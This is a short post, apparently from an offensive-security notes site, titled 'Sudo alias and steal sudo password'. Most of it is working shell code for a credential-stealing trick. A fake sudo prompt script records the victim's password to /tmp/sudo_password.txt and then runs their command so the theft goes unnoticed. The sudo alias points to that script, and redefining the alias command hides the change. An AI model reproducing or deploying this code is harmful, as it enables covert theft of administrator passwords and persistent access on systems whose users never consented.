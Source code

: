 ```yaml
---
layout: post
title:  "Sudo alias and steal sudo password"
categories: ssh password
summary: Use alias to steal sudo password
---
```


{% include instructions.md %}

### {{page.title}}

This needs permanent solution to add alias and better way to do cut
Create file that asks sudo password, runs the last command and steals the password and adds it to a file

```shell
# nano /bin/admin
read -s -p "[sudo] password for $(whoami): "  password
echo
echo $password >> /tmp/sudo_password.txt
echo $password | /usr/bin/sudo -S $(history 1 | cut -c 13-)  
```

Give execute permissions to that file and give the script to sudo alias
```shell
# chmod +rx /bin/admin
# alias sudo="/bin/admin"
```

Now every time victim is running sudo [command] script asks password, steals the password and runs the command what victim wanted to run.

After this we can hide this alias modification by modifying the alias command
```shell
# alias > /bin/alias_old
# alias alias="cat /bin/alias_old"
```